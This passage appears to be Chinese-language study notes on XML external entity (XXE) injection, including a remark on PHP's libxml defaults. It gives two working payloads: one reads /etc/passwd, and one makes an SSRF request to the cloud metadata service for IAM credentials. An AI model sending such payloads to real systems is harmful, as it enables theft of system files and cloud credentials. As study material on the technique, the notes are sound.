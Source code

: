 ![](2022-11-01-10-39-52.png)  
同时在php中对xml数据支持使用的是libxml库,而在2.9.1版本之后已经默认不解析外部实体.
## Expolit
### File Read
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
![](2022-11-01-10-59-54.png)
### SSRF
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```